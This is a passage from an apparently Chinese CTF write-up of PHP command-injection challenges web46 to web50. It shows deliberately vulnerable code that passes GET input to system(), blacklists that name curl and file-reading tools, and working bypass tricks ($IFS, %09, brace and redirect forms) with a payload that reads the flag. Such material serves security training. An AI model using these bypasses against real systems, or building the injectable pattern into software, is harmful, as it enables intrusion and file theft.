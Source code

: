 $IFS是shell的特殊环境变量,是linux下的内部域分隔符.${IFS}中存储的值可以是空格/制表符/换行符或者其他自定义符号

##### 2)$IFS$9绕过

##### 3)制表符绕过

%09是制表符的url编码,可以通过%09来代替空格,绕过空格过滤

##### 4){ }绕过

空格过滤可以用{ }绕过,例如

{cat,index.php}

##### 5)<绕过

例如cat<index.php

### web46

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);

```

本题相较上题添加了对`*`数字和$符号的过滤,使得绕过空格时的前三种方法失效

`c=tac%09fla?.php%26%26ls`

本来想用`{}`和`<`绕过,但是经过测试,发现这两种方法好像不支持通配符的使用,不能用?代替某个缺失字符,必须是全名

%09虽然有数字,但是其被解码后是制表符,不会被过滤

### web47

同上,只是多增加了几个对读取文件的命令的过滤

### web48

同上

### web49

还是没有过滤tac,用一样的payload

### web50

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```
